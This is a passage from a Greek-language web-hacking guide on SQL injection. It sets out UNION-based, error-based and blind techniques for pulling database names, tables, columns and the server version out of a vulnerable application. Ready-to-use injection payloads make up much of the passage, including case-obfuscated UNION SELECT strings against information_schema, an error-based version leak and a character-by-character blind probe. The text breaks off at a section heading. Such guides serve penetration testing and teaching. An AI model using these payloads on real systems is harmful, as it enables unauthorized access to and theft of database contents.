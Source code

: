 Στα επόμενα παραδείγματα θα ανακτήσουμε το όνομα όλων των βάσεων δεδομένων, το όνομα του πίνακα μιας βάσης δεδομένων, τα ονόματα των στηλών του πίνακα:
```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
_Υπάρχει ένας διαφορετικός τρόπος για να ανακαλύψετε αυτά τα δεδομένα σε κάθε διαφορετική βάση δεδομένων, αλλά η μεθοδολογία είναι πάντα η ίδια._

## Εκμεταλλευόμενοι την Κρυφή Ένωση

Όταν το αποτέλεσμα μιας ερώτησης είναι ορατό, αλλά μια εισαγωγή βασισμένη σε ένωση φαίνεται αδύνατη, αυτό υποδηλώνει την ύπαρξη μιας **κρυφής εισαγωγής βασισμένης σε ένωση**. Συνήθως, αυτή η κατάσταση οδηγεί σε μια κατάσταση τυφλής εισαγωγής. Για να μετατραπεί μια τυφλή εισαγωγή σε μια βασισμένη σε ένωση, πρέπει να διακριθεί η εκτέλεση της ερώτησης στο πίσω μέρος.

Αυτό μπορεί να επιτευχθεί μέσω της χρήσης τεχνικών τυφλής εισαγωγής σε συνδυασμό με τους προεπιλεγμένους πίνακες που είναι συγκεκριμένοι για το σύστημα διαχείρισης βάσεων δεδομένων (DBMS) στον στόχο σας. Για να κατανοήσετε αυτούς τους προεπιλεγμένους πίνακες, συνιστάται να ανατρέξετε στην τεκμηρίωση του συστήματος DBMS που στοχεύετε.

Αφού έχει εξαχθεί η ερώτηση, είναι απαραίτητο να προσαρμόσετε το φορτίο σας για να κλείσετε με ασφάλεια την αρχική ερώτηση. Στη συνέχεια, προστίθεται μια ερώτηση ένωσης στο φορτίο σας, διευκολύνοντας την εκμετάλλευση της νεοαποκτηθείσας εισαγωγής βασισμένης σε ένωση.

Για περισσότερες λεπτομερείς πληροφορίες, ανατρέξτε στον πλήρη άρθρο που είναι διαθέσιμο στο [Healing Blind Injections](https://medium.com/@Rend_/healing-blind-injections-df30b9e0e06f).

## Εκμεταλλευόμενοι την Εισαγωγή βασισμένη σε Σφάλματα

Εάν για οποιονδήποτε λόγο **δεν μπορείτε** να δείτε την **έξοδο** της **ερώτησης** αλλά μπορείτε να δείτε τα μηνύματα σφάλματος, μπορείτε να χρησιμοποιήσετε αυτά τα μηνύματα σφάλματος για να **εξαγάγετε** δεδομένα από τη βάση δεδομένων.\
Ακολουθώντας έναν παρόμοιο ροή όπως στην εκμετάλλευση βασισμένη σε ένωση, μπορείτε να καταφέρετε να απορρίψετε τη βάση δεδομένων.
```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```
## Εκμεταλλευόμενος το Blind SQLi

Σε αυτήν την περίπτωση δεν μπορείτε να δείτε τα αποτελέσματα του ερωτήματος ή τα σφάλματα, αλλά μπορείτε να **διακρίνετε** πότε το ερώτημα επιστρέφει μια απάντηση **αληθής** ή **ψευδής** επειδή υπάρχουν διαφορετικοί περιεχόμενοι στη σελίδα.\
Σε αυτήν την περίπτωση, μπορείτε να καταχραστείτε αυτήν τη συμπεριφορά για να αντλήσετε τη βάση δεδομένων χαρακτήρα προς χαρακτήρα:
```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```
## Εκμεταλλευόμενος το Error Blind SQLi
